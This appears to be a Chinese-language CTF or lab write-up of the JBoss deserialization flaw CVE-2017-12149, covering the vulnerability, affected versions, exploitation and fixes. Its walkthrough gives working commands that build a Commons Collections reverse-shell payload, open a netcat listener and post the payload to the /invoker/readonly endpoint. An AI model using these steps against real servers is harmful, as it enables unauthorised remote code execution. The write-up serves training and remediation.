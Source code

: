  CVE-2017-12149

# 一，漏洞描述

JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。
2017年8月30日，厂商Redhat发布了一个JBOSSAS 5.x 的反序列化远程代码执行漏洞通告。该漏洞位于JBoss的HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，其doFilter方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码。但近期有安全研究者发现JBOSSAS 6.x也受该漏洞影响，攻击者利用该漏洞无需用户验证在系统上执行任意命令，获得服务器的控制权。


# 二，影响版本

```
5.x和6.x版本的JBOSSAS
```

# 三，利用流程

访问地址： `10.10.11.20:49069`

名称： CVE-2017-12149

下载exp

`git clone https://github.com/joaomatosf/JavaDeserH2HC`

![1](./1.jpg)

执行命令

```
设置反弹的ip和端口
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap ip:port
本地设置监听
nc -lvvp 1234
发送数据包
curl http://10.10.11.20:49069/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![2](./2.jpg)



执行命令获得flag

![3](./3.jpg)

通关！

# 四，修复方案

1.升级到JBOSS AS7。

2.临时解决方案：

​	(1) 不需要 http-invoker.sar 组件的用户可直接删除此组件。

​	(2) 添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中：<url-pattern>/*</url-pattern>用于对 http invoker 组件进行访问控制。



